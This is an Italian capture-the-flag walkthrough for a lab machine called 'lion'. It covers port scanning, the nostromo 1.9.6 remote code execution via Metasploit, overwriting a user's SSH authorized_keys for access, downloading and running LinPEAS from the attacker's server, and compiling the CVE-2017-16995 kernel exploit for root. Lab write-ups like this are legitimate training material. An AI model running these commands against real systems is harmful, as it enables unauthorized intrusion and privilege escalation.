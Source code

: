 # lion
## ENUMERAZIONE
partiamo con uno scan delle porte e dei servizi che ci girano sopra.

```bash
nmap lion.thm -sV -sC 
```

troviamo 2 porte interessanti la porta 8080 e la 1337 

avete più possibilità io ho individuato 2 problemi principali di questa web app 
principalmente nostromo usa un paramentro http_verify che permette all'attacante di inviare comandi 
in questo caso vi consiglio di avviare metasploit
## EXPLOITATION
```bash
msfconsole
```
tramite questo cercate nostromo 
```bash
search nostromo
```

dovreste vedere una vulnerabilità di questo tipo nostromo 1.9.6 - Remote Code Execution

fate il comando 
```bash
use vulnerabilità trovata
```
aggiungete tutti i campi dell'exploit

fate run 

ed ecco che avremmo una console dove lanciare tutti i comandi che ci servono

i comandi che seguono serviranno per capire con che utente ci troviamo e per creare un chiave ssh che useremo dopo
```bash
id
```
genero una key per l'ssh
```bash
ssh-keygen
```
inserisco la chiave generata al posto di quella che esisteva già e tramite questa mi autorizzo l'accesso all'ssh
```bash
mkdir /home/gloria/.ssh; echo '<il file sshkey.pub>' > /home/gloria/.ssh/authorized_keys
```

tramite l'sshkey generata e salvata sulla nostra macchina facciamo la connessione in ssh

## SSH

```bash
ssh -i sshkey gloria@<lion.thm> -p 1337
```
ottimo siamo sull'ssh andiamo a fare il privesc

## PRIVILEGE ESCALATION

scarichiamo LinPEAS.sh sulla nostra macchina e passiamolo sulla macchina attaccata

```bash
python3 -m http.server 80
```
comando da eseguire sulla macchina attaccata:
```bash
wget http://vostroip/LinPEAS.sh
```

diamo i giusti permessi allo script
```bash
chmod +x LinPEAS.sh
./LinPEAS.sh
```

il kernel è vulnerabile andiamo ad usare l'exploit 
cve-2017-16995
scarichiamolo e andiamo a compilare sulla macchina per evitare corruzioni
fate i passaggi come se voleste passare linpeas.
una volta che il file cve-2017-16995.c si trova sulla macchina eseguite questo comando per compilarlo
```bash
gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995 
```

avviatelo e il gioco e fatto!
```bash
./cve-2017-16995
```




